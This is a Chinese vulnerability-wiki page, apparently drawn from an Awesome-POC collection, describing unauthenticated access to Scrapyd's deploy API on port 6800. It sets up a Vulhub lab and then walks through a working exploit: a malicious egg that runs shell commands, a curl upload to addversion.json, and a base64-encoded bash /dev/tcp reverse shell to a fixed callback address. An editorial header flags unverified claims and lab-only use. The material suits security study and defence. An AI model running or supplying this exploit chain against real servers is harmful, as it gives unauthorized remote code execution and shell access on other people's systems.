



# Scrapyd 未授权访问漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：Network-reachable6800 with no authentication/access restrictions;package execution intended API function
- 证据范围：Egg deployment proof plus shell variation; no version-specific defect identified

### 本次正文校订

- 按实际内容修正 4 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- State insecure configuration/version-specific default separately from every Scrapyd installation
- No compose path/image/version or remediation section
- 'Must base64' is unjustified universal claim; reflects shown shell/quoting choice
- Encoded payload has fixed callback address and must be clearly lab-only

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

scrapyd是爬虫框架scrapy提供的云服务，用户可以部署自己的scrapy包到云服务，默认监听在6800端口。如果攻击者能访问该端口，将可以部署恶意代码到服务器，进而获取服务器权限。

参考链接：

- https://www.leavesongs.com/PENETRATION/attack-scrapy.html

## 环境搭建

Vulhub执行如下命令启动scrapyd服务：

```shell
docker-compose up -d
```

环境启动后，访问`http://your-ip:6800`即可看到Web界面。



## 漏洞复现

参考[攻击Scrapyd爬虫](https://www.leavesongs.com/PENETRATION/attack-scrapy.html)，构造一个恶意的scrapy包：

```
$ pip install scrapy scrapyd-client
$ scrapy startproject evil
$ cd evil
```

编辑 `evil/__init__.py`, 加入恶意代码：

```python
import os

os.system('touch awesome_poc')
```

进行部署：

```
$ scrapyd-deploy --build-egg=evil.egg
```

向API接口发送恶意包：

```shell
curl http://your-ip:6800/addversion.json -F project=evil -F version=r01 -F egg=@evil.egg
```

成功执行命令`touch awesome_poc`：



同样的方法实现反弹shell，编辑 `evil/__init__.py`, 加入恶意代码：

```shell
bash -i >& /dev/tcp/192.168.174.128/9999 0>&1

# base64编码（必须要base64编码，直接bash -i >& /dev/tcp/192.168.174.128/9999 0>&1是不行的）
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=
```

```python
import os

os.system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo= | base64 -d | bash')
```

进行部署：

```
$ scrapyd-deploy --build-egg=evil.egg
```

向API接口发送恶意包：

```shell
curl http://your-ip:6800/addversion.json -F project=evil -F version=r01 -F egg=@evil.egg
```

成功反弹shell：




---

> 来源：Threekiii/Awesome-POC
